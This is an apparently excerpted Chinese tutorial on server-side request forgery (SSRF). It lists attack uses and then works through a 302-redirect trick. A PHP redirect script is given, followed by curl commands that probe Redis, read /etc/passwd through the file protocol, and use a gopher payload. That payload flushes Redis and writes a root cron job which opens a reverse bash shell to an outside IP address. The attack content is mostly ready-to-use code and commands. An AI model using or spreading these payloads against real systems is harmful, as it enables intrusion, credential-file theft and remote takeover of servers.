 4.攻击内网web应用（可以向内部任意主机的任意端口发送精心构造的数据包{payload}）

5.攻击内网应用程序（利用跨协议通信技术）

6.判断内网主机是否存活：方法是访问看是否有端口开放

7.DoS攻击（请求大文件，始终保持连接keep-alive always）





### 302 SSRF

当URL存在临时(302)或永久(301)跳转时，则继续请求跳转后的URL

那么我们可以通过HTTP(S)的链接302跳转到gopher协议上。

我们继续构造一个302跳转服务，代码如下302.php:

```php
<?php  
$schema = $_GET['s'];
$ip     = $_GET['i'];
$port   = $_GET['p'];
$query  = $_GET['q'];
if(empty($port)){  
    header("Location: $schema://$ip/$query"); 
} else {
    header("Location: $schema://$ip:$port/$query"); 
}
```

**利用测试**

```bash
# dict protocol - 探测Redis
dict://127.0.0.1:6379/info  
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'

# file protocol - 任意文件读取
curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'


# gopher protocol - 一键反弹Bash
# * 注意: gopher跳转的时候转义和`url`入参的方式有些区别
curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0 
a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  
%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3
%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

```
